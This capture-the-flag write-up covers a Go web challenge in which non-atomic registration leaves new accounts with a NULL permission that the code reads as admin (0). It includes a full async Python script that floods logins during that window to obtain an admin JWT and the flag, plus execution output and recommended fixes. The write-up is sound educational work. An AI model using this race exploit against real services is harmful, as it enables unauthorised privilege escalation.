


# Confession Booth

```
Category: Web Security / Race Condition
Author: Ronen Shustin
Difficulty: Hard
```


# Challenge Description

Someone set up a Hacker Confession Booth claiming it's a safe space to spill secrets.

Word on the street is that it's a trap — the admin is manually filtering confessions.

Time to expose the truth.

> Hint: If you didn't become an admin yet, you didn't try enough times.


# Summary

The application contained a race condition vulnerability during the registration flow.

A user account was first created with a `NULL` permission value and only afterward updated to a normal user permission. By sending concurrent login requests during this small timing window, it was possible to obtain an administrator JWT token.

The vulnerability chain relied on:

* Non-atomic database operations
* Unsafe handling of `NULL` values
* Go integer zero-values
* Misconfigured permission constants


| Step | User / Access   | Technique Used                        | Result                                                                                                                        |
| :--: | :-------------- | :------------------------------------ | :---------------------------------------------------------------------------------------------------------------------------- |
|   1  | Unauthenticated | **Initial Recon & Behavior Analysis** | Identified registration/login flow where permissions were assigned in separate database operations, creating a timing window. |
|   2  | Unauthenticated | **Race Condition Identification**     | Discovered that newly created users temporarily existed with `NULL` `permission_level` before being updated to `user`.        |
|   3  | Unauthenticated | **Logic Flaw in Permission Model**    | Noted critical design issue where `PermissionAdmin = 0` overlapped with Go’s default zero-value (`NULL → 0`).                 |
|   4  | Attacker        | **Concurrent Login Flooding**         | Triggered high-volume parallel login requests immediately after registration to hit the uninitialized permission window.      |
|   5  | Attacker        | **Token Confusion Exploitation**      | Exploited `NULL → 0` coercion in login handler, causing the system to interpret the user as `PermissionAdmin`.                |
|   6  | Attacker        | **JWT Privilege Escalation**          | Successfully obtained an administrator-signed JWT token during the race window.                                               |
|   7  | Admin Context   | **Endpoint Authorization Abuse**      | Used elevated token to access `/admin` endpoints normally restricted to administrators.                                       |
|   8  | Admin Context   | **Flag Retrieval**                    | Invoked privileged admin action (`approve confession / flag endpoint`) and retrieved the challenge flag.                      |


| Attribute                  | Technical Details                                                                                                                                                                |
| :------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `/auth/register`, `/auth/login`, `permission_level` column, JWT (HS512), Go integer zero-value behavior                                                                          |
| **Critical Vulnerability** | Non-atomic user provisioning workflow combined with unsafe `NULL → int` handling, causing privilege escalation when `NULL` was interpreted as `0` (admin)                        |
| **Offensive Action**       | High-concurrency login requests launched during the narrow post-registration window where `permission_level` was unset, causing privilege confusion and issuance of an admin JWT |


# Application Overview

The application stack:

| Component        | Technology  |
| - | -- |
| Framework        | Echo v4     |
| Database         | PostgreSQL  |
| Authentication   | JWT (HS512) |
| Password Hashing | bcrypt      |
| Language         | Go          |


# Source Code Analysis

## Database Schema

```go
CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username TEXT UNIQUE NOT NULL,
    password_hash TEXT NOT NULL,
    profile_picture_url TEXT,
    permission_level INT,
    bio TEXT
);
```

The important issue here was:

* `permission_level` had no default value
* Newly created users initially had `NULL` permissions


## Permission Constants

```go
const (
    PermissionAdmin = 0
    PermissionUser  = 1
)
```

Critical mistake:

* Admin permission used value `0`
* `0` is Go's default integer zero-value


## Registration Handler

```go
userID, err := database.CreateUser(
    username,
    string(hashedPassword),
    profilePicURL,
)

// RACE WINDOW

err = database.UpdateUserPermissions(
    userID,
    config.PermissionUser,
)
```

The registration flow performed:

1. User creation
2. Permission assignment

as two separate operations.

This introduced a vulnerable race window.


## Login Handler

```go
var userPerms int

err := database.DB.QueryRow(
    selectStmt,
    username,
).Scan(
    &userID,
    &dbHashedPassword,
    &userPerms,
)
```

Because `userPerms` was a normal integer instead of `sql.NullInt64`:

```go
NULL -> 0
```

Since:

```go
PermissionAdmin = 0
```

a user logging in during the race window automatically became admin.


# Vulnerability Timeline

```text
[1] User inserted into database
    permission_level = NULL

[2] Race window exists

[3] permission_level updated to 1
```

If login occurred during step `[2]`:

```text
NULL -> 0
0 -> PermissionAdmin
```

Result:

* Administrator JWT token issued


# Attack Strategy

The exploit required:

1. Sending a registration request
2. Simultaneously flooding login requests
3. Winning the race before permissions updated
4. Accessing the admin endpoint
5. Retrieving the flag


# Initial Failed Attempts

## Attempt 1 — Python Threading

Used:

* `urllib`
* Python threads

Problems:

* Poor timing precision
* Login requests arrived too early or too late

Result:

```text
No token
```


## Attempt 2 — ThreadPoolExecutor

Used:

* `concurrent.futures`
* More parallel login attempts

Problems:

* Python GIL
* Synchronous HTTP requests

Result:

```text
No tokens
```


## Attempt 3 — Background curl Processes

Used:

* Parallel bash processes

Problem discovered:

```text
Missing authentication token
```

The CTF platform itself required an authentication cookie.


# Platform Authentication

The challenge was protected behind a platform JWT cookie.

Example:

```bash
curl -s \
  -b "token=[PLATFORM_JWT]" \
  https://target/healthz
```

Successful response:

```text
ok
```


# Successful Exploit

## Environment Setup

```bash
python3 -m venv venv
source venv/bin/activate

pip install aiohttp
```


# Final Exploit

```python
#!/usr/bin/env python3

import asyncio
import aiohttp
import random
import string

BASE_URL = "https://....confession-booth.challenges.wiz-research.com"
PLATFORM_TOKEN = "[YOUR_PLATFORM_JWT_HERE]"


def random_username():
    return "".join(random.choices(string.ascii_lowercase, k=10))


async def do_register(session, username, password):
    try:
        async with session.post(
            f"{BASE_URL}/auth/register",
            data={
                "username": username,
                "password": password,
                "profile_picture_url": "https://ui-avatars.com/api/?name=test",
            },
        ) as response:
            return await response.text()

    except Exception as error:
        return str(error)


async def do_login(session, username, password):
    try:
        async with session.post(
            f"{BASE_URL}/auth/login",
            data={
                "username": username,
                "password": password,
            },
        ) as response:

            if response.status == 200:
                data = await response.json()
                return data.get("token")

    except Exception:
        pass

    return None


async def check_admin(session, token):
    try:
        cookies = {
            "token": PLATFORM_TOKEN,
            "booth_session": token,
        }

        async with session.get(
            f"{BASE_URL}/admin",
            cookies=cookies,
        ) as response:
            return response.status == 200

    except Exception:
        return False


async def get_flag(session, token):
    try:
        cookies = {
            "token": PLATFORM_TOKEN,
            "booth_session": token,
        }

        async with session.post(
            f"{BASE_URL}/admin/confessions/approve/flag",
            cookies=cookies,
        ) as response:
            return await response.text()

    except Exception as error:
        return str(error)


async def race_attempt(session, username, password, num_logins=30):
    tasks = []

    tasks.append(
        do_register(session, username, password)
    )

    for _ in range(num_logins):
        tasks.append(
            do_login(session, username, password)
        )

    results = await asyncio.gather(
        *tasks,
        return_exceptions=True,
    )

    tokens = []

    for result in results[1:]:
        if (
            isinstance(result, str)
            and result
            and len(result) > 50
        ):
            tokens.append(result)

    return tokens


async def main():
    password = "password123"
    max_attempts = 500

    connector = aiohttp.TCPConnector(
        limit=100,
        limit_per_host=50,
    )

    cookies = {
        "token": PLATFORM_TOKEN,
    }

    async with aiohttp.ClientSession(
        connector=connector,
        cookies=cookies,
    ) as session:

        for attempt in range(max_attempts):
            username = random_username()

            print(
                f"[{attempt + 1}] Racing with {username}...",
                end=" ",
                flush=True,
            )

            tokens = await race_attempt(
                session,
                username,
                password,
                num_logins=30,
            )

            if not tokens:
                print("No tokens")
                continue

            print(f"Got {len(tokens)} token(s)!")

            for token in tokens:
                is_admin = await check_admin(session, token)

                if not is_admin:
                    continue

                print("\n[!] SUCCESS - Admin access!")
                print(f"[*] Token: {token[:60]}...")

                flag = await get_flag(session, token)

                print(f"[FLAG] {flag}")
                return

            print("No admin access (race lost)")


if __name__ == "__main__":
    asyncio.run(main())
```


# Successful Execution

```text
[1] Racing with vsasgfhfnf... Got 1 token(s)!
    No admin access (race lost)

[2] Racing with lmdodushgf... Got 1 token(s)!
    No admin access (race lost)

[3] Racing with wpqrhrvnfm... No tokens

[4] Racing with zjcilaaceb... No tokens

[5] Racing with xvlzvenofh... Got 10 token(s)!

[!] SUCCESS - Admin access!
[*] Token: eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjo2NCwicGV...

[FLAG] {"flag":"WIZ_CTF{REDACTED}"}
```



# Root Cause Analysis

The vulnerability resulted from multiple insecure design decisions chained together.

## Non-Atomic Registration

```go
CreateUser()
UpdateUserPermissions()
```

These operations should have been performed inside a transaction.



## Unsafe NULL Handling

```go
var userPerms int
```

Should have used:

```go
sql.NullInt64
```


## Dangerous Permission Design

```go
PermissionAdmin = 0
```

The least safe value was assigned the most privileged role.


# Recommended Fixes

| Fix                     | Description                                                  |
| ----------------------- | -------------------------------------------------------------|
| Database Transactions   | Wrap user creation and permission updates in one transaction |
| Default Permissions     | Set `permission_level DEFAULT 1`                             |
| Safer Permission Values | Use `User = 0`, `Admin = 1`                                  |
| Proper NULL Handling    | Use `sql.NullInt64`                                          |


# Lessons Learned

## Atomicity Matters

Authentication-related database operations must be transactional.


## Zero-Values Are Dangerous

Never assign privileged roles to default values.


## Race Conditions Are Exploitable

Even very small timing windows become exploitable with enough concurrency.


## Async Exploitation Is Powerful

`aiohttp` achieved true parallelism where threading failed.


# Final Thoughts

This challenge demonstrated how multiple small implementation mistakes can combine into a critical privilege escalation vulnerability.

The race condition window was extremely small, but reliable exploitation became possible once asynchronous HTTP requests were used at scale.

The key takeaway:

> Tiny timing bugs become serious vulnerabilities when combined with unsafe defaults and improper type handling.
